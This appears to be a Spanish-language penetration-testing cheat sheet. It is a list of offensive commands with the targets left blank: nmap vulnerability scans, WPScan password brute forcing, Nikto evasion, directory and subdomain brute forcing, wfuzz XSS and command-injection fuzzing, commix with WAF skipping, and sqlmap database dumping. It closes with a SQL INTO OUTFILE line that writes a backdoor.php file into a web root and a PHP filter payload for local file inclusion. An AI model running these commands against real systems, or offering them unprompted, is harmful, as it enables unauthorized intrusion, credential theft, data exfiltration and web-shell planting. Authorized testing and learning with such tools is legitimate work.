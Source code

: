 ================================================================================
=== Nmap ====


nmap -p- -sT -sV -A 

nmap -p- -sC -sV  --open

nmap -p- --script=vuln 

###HTTP-Methods

nmap --script http-methods --script-args http-methods.url-path='/website'

###  --script smb-enum-shares

sed IPs:

grep -oE '((1?[0-9][0-9]?|2[0-4][0-9]|25[0-5])\.){3}(1?[0-9][0-9]?|2[0-4][0-9]|25[0-5])' FILE

================================================================================

=== WPScan & SSL ====

wpscan --url  --disable-tls-checks --enumerate p --enumerate t --enumerate u

=== Fuerza Bruta con WPScan:

wpscan --url  --disable-tls-checks -U users -P /usr/share/wordlists/rockyou.txt

=== Detección de plugins en modo agresivo:

wpscan --url  --enumerate p --plugins-detection aggressive

================================================================================

===Nikto con ssl y modo evasión

nikto --host  -ssl -evasion 1

SEE EVASION MODALITIES.
================================================================================

=== dns_recon ====

dnsrecon –d yourdomain.com

================================================================================

=== Enumera directorios con gobuster: ====

gobuster dir -u  -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -l -k -t 30

===Enumera archivos con gobuster:

gobuster dir -u  -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt -l -k -t 30

===Fueza bruta a subdominios con gobuster : 

gobuster dns -d domain.org -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 30

Asegúrate de que cualquier nombre de DNS que encuentres se resuelva a una dirección dentro del alcance antes de probarlo.

================================================================================

=== Extraer todas las IPs de un archivo de texto. ===

grep -o '[0-9]\{1,3\}\.[0-9]\{1,3\}\.[0-9]\{1,3\}\.[0-9]\{1,3\}' nmapfile.txt

================================================================================

=== Wfuzz XSS Fuzzing ===

wfuzz -c -z file,/usr/share/seclists/Fuzzing/XSS/XSS-BruteLogic.txt 

wfuzz -c -z file,/usr/share/seclists/Fuzzing/XSS/XSS-Jhaddix.txt 

=== Inyeccion de comandos con datos en POST:

wfuzz -c -z file,/usr/share/seclists/Fuzzing/command-injection-commix.txt -d doi=FUZZ 

=== Prueba los parametros existentes:

wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt 

===  Fuzzing a Directorios (Autenticado):

wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt --hc 404 -d SESSIONID=value 

=== Fuzzing de Archivos (Autenticado):

wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt --hc 404 -d SESSIONID=value 

=== Fuzzing a Directorios:

wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt --hc 404 

=== Fuzzing a Archivos:

wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-large-files.txt --hc 404 

Lista grande de palabras:

wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-large-words.txt --hc 404 

Usuarios:

wfuzz -c -z file,/usr/share/seclists/Usernames/top-usernames-shortlist.txt --hc 404,403 


================================================================================

=== Inyección de comandos con  commix, ssl, waf, random agent. ===

commix --url=https://supermegaleetultradomain.com?parameter= --level=3 --force-ssl --skip-waf --random-agent

================================================================================

=== SQLMap ===

sqlmap -u  --threads=2 --time-sec=10 --level=2 --risk=2 --technique=T --force-ssl

sqlmap -u  --threads=2 --time-sec=10 --level=4 --risk=3 --dump

/SecLists/Fuzzing/alphanum-case.txt

================================================================================

=== Social Recon ===

theharvester -d domain.org -l 500 -b google

================================================================================

=== Nmap HTTP-methods ===

nmap -p80,443 --script=http-methods  --script-args http-methods.url-path='/directory/goes/here'

================================================================================

=== Enumeración de usuarios SMTP ===

smtp-user-enum -M VRFY -U /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -t 

smtp-user-enum -M EXPN -U /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -t 

smtp-user-enum -M RCPT -U /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -t 

smtp-user-enum -M EXPN -U /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -t 

================================================================================

=== Verificacion de Execucion de Comandos - [Ping] ==

tcpdump -i any -c5 icmp

=== Buscar dispositivos en la red ===

netdiscover /r 0.0.0.0/24

arp-scan --interface eth0 0.0.0.0/24

====

#INTO OUTFILE D00R

SELECT “” into outfile “/var/www/WEROOT/backdoor.php”;

====

LFI?

#PHP Filter Checks.

php://filter/convert.base64-encode/resource=

====
